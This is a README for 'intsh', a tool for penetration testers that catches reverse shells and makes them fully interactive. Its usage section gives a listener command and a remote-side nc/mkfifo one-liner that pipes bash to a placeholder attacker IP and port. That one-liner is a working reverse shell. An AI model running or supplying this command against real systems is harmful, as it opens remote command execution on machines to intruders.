 # intsh
Grab a fully interactive reverse-shell

intsh is a reverse-shell listener for pentesters too lazy to make their reverse shell interactive manually.

intsh automates the process of spinning up a listening socket, setting the tty to raw mode, setting the columns and rows, and handling terminal resizes.

It ensures interactive programs like vim can be used flawlessly through reverse-shells.

Python is required on the target side.

## Usage:
Local-side (listener):
```sh
python3 intsh.py <port>
```

Remote-side:
```sh
rm -f f; mkfifo f; <f nc <attacker-ip> <attacker-port> | bash > f
```
